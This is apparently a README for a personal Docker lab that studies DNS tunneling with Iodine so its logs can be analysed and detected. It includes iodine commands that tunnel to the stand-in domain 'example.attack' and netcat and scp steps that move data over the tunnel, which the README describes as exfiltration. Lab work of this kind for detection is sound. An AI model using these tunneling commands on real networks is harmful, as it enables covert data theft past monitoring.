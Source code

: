 ## DNS Tunneling
[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)

This is a personal experiment with Iodine to explore how DNS tunneling works as well as for log analysis purposes.
Main motivation was due to reading of <a href="https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152">SANS's interesting paper on the topic</a>. 

This project consists of three Docker containers:
* Iodine server in "control" of the "example.attack" domain.
* DNS Server forwarding requests to Iodined. (dnsmasq)
* Iodine client on which to create the DNS tunnel and exfiltrate data.

A circleci matrix pipeline was created to generate some example log files for various dunnel configuration combinations(encoding x record types). This produced some interesting looking log files which are attached to this repo.

### Docker-Compose
```console
#### Create the network and containers asap ####
$ docker-compose up
```

### Manual Approach
<details>
<summary>In case you'd want to build everything without docker-compose.</summary>
<p>

```console
#### Create Network ####
$ docker network create --subnet=172.18.0.0/16 dns-network

#### Build all containers ####
$ docker build -t attack_server attack_server/.
$ docker build -t attack_client attack_client/.
$ docker build -t dns_server dns_server/.

#### Run all containers ####
$ docker run -d --privileged --net dns-network --ip 172.18.0.2 --rm --name attack_server attack_server
$ docker run -d --privileged --net dns-network --ip 172.18.0.3 --rm --name attack_client attack_client
$ docker run -itd --privileged --net dns-network --ip 172.18.0.4 --rm -p 53:53/udp -v $PWD/dnsmasq.conf:/etc/dnsmasq.conf -v $PWD/dnsmasq-logs:/var/log --name dns_server2 dns_server

#### Enter each as you see fit ####
$ docker exec -it attack_client bash
$ docker exec -it attack_server bash
$ docker exec -it dns_server sh
```

</p>
</details>

### Customize Iodine Commands
By default the Iodine client in the attached Docker container not setup the tunnel. This has been automated in the circleci pipeline but should now be issued by hand. Main things to vary are the encoding (-O) and DNS record types used for the tunnel (-T). "example.attack" is the fake domain in control by a would-be scoundrel.
<details>
<summary>However you might want to see some other possibilities.</summary>
<p>

```console
$ docker exec -it attack_client bash
$ iodine -4 -f -P abc123 -r 172.18.0.4 example.attack & # Let Iodine autodetect/optimize encoding and DNS request types.
$ iodine -4 -f -P abc123 -Ttxt -Oraw -r 172.18.0.4 example.attack & # Force Iodine to use TXT records and raw encoding.
```

</p>
</details>

### Exchange some data
<details>
<summary>By default a text file with lorum-ipsum is generated of around 2MB and can be copied over; this is also what's been automated in circleci pipeline.</summary>
<p>

```console
#### netcat ####
# From Server
$ nc -l -s 10.0.0.1 -p 1234

# From Client
$ nc 10.0.0. 1234

#### SSH ####
# From Server
$ fallocate -l 100M file.out
$ $(which sshd) -D

#### From Client (pwd = 'root') ####
$ scp root@10.0.0.1:file.out ~/

#### From DNS Server observe logged queries ####
$ watch ls -lah /var/log/dnsmasq.log
```

</p>
</details> 


<details>
<summary>Additionally one can eavesdrop on the docker network using tshark / wireshark to see the raw requests.</summary>
<p>

```console
$ tshark -T fields -e dns.qry.name -i docker0

# One might have to find out the correct interface first:
$ docker exec -ti <container id> cat /sys/class/net/eth0/iflink
$ ip link | grep <number>
```

</p>
</details>







